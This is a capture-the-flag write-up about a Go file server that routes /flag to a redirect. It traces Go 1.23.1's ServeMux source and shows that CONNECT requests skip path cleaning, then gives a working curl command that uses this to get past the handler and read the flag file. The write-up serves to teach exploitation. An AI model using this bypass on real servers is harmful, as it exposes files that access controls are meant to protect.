 # Tomorin db 🐧
> Author: 堇姬Naup

## analyze
Its souce code is short.
It build one fileserver, and we can get under `/app/Tomorin` file.
```go
package main

import "net/http"

func main() {
	http.Handle("/", http.FileServer(http.Dir("/app/Tomorin")))
	http.HandleFunc("/flag", func(w http.ResponseWriter, r *http.Request) {
		http.Redirect(w, r, "https://youtu.be/lQuWN0biOBU?si=SijTXQCn9V3j4Rl6", http.StatusFound)
  	})
  	http.ListenAndServe(":30000", nil)
}
```

And flag is in `/app/Tomorin`
But when we try to request to get flag, you will be redirected to youtube.
Because it have another handler which handle `/flag` request.

So we try to request `http://host/flag`
You don't get flag, and `/flag` handler will handle it.

When you try to request `http://host/./flag`, `http//host/../flag` or etc.
It still redirect you to youtube.
It sound so strange, so let me check source code.

## golang source code
You can read go 1.23.1 source code.

First read this

[src/net/http/server.go#L2573C1-L2579C2](https://github.com/golang/go/blob/release-branch.go1.23/src/net/http/server.go#L2573C1-L2579C2)
Your request will call `func Hnadler` and it next will call `findHnadler`

```go
func (mux *ServeMux) Handler(r *Request) (h Handler, pattern string) {
	if use121 {
		return mux.mux121.findHandler(r)
	}
	h, p, _, _ := mux.findHandler(r)
	return h, p
}
```

[src/net/http/server.go#L2585](https://github.com/golang/go/blob/release-branch.go1.23/src/net/http/server.go#L2585)

If we request not `CONNECT`, it will enter this part.
It will do `cleanPath(path)`
So if we try to request `http://host/./flag`, `./flag` path will be edit.
It change `./flag` to `/flag`. 

[cleanpath docs](https://pkg.go.dev/github.com/PuerkitoBio/httpmw/cleanpath)

```go
	} else {
		// All other requests have any port stripped and path cleaned
		// before passing to mux.handler.
		host = stripHostPort(r.Host)
		path = cleanPath(path)

		// If the given path is /tree and its handler is not registered,
		// redirect for /tree/.
```

But we can read request method `CONNECT`
```go
	if r.Method == "CONNECT" {
		// If r.URL.Path is /tree and its handler is not registered,
		// the /tree -> /tree/ redirect applies to CONNECT requests
		// but the path canonicalization does not.
		_, _, u := mux.matchOrRedirect(host, r.Method, path, r.URL)
		if u != nil {
			return RedirectHandler(u.String(), StatusMovedPermanently), u.Path, nil, nil
		}
		// Redo the match, this time with r.Host instead of r.URL.Host.
		// Pass a nil URL to skip the trailing-slash redirect logic.
		n, matches, _ = mux.matchOrRedirect(r.Host, r.Method, path, nil)
```
It doesn't call cleanpath cleaning your url path.
And directly call next function.

So we try to do this :

`curl --path-as-is -X CONNECT http://host/./flag`

you will get flag!
PS: If you use curl, curl still normalize the URL path. we can add `--path-as-is` prevent it do normalize.

## script 
```sh
curl --path-as-is -X CONNECT http://host/./flag
```
